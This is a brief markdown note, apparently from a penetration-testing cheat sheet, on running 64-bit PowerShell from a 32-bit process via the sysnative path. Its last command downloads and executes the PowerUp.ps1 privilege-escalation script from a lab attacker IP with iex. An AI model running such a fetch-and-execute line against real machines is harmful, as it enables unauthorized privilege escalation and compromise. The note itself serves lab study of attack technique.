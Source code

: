 # Use 64-bit powershell script on 32-bit PC

## Commands

    powershell.exe -c "[Environment]::Is64BitProcess"

    cd C:\Windows\sysnative\WindowsPowerShell\v1.0\

    powershell.exe -c "[Environment]::Is64BitProcess"

    powershell.exe -c "iex(new-object net.webclient).downloadstring('http://10.10.14.75:81/PowerUp.ps1'); Invoke-AllChecks"

